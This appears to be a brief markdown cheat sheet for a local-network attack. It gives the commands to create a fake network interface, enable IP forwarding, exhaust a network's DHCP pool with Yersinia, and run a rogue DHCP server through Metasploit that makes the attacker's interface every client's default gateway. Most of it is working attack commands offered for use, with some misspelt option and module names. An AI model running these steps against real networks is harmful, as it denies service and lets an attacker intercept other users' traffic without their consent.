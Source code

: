 ## tool
---

#### Yersinia
* create fake interface to work
```
ifconfig eth0:1 192.168.1.3 netmask 255.255.255.0
```

* route traffic that will come to fake int to original gateway by using route
```
route add default gw 192.168.1.1 eth0:1
```

* enable IP forwarding
```
cat /proc/sys/net/ipv4/ip_forward
// change its value to 1
```

### then

### dhcp starwation (make all ip full of dhcp)
```
yersinia dhcp -attack 1
```

### For rogue sever
> it will make our dhcp sever , a fake dhcp that will use in network now
* also can use yersinia
* using metasploit 
```
use auxiliar/server/dhcp

//options to use

set DHCPSTART 192.168.1.80
//starting of ip 

set DHCPEND 192.168.1.190

set DHCPSEVER 8.8.8.8

set NETMASK 255.255.255.0

set ROUTER 192.168.1.3
// set ip of fake interface you create , it will assing this ip as default gateway for clients

set SRVHOST 192.168.1.4
// ip of dhcp server that clients will see
// use any ip , new ip
```
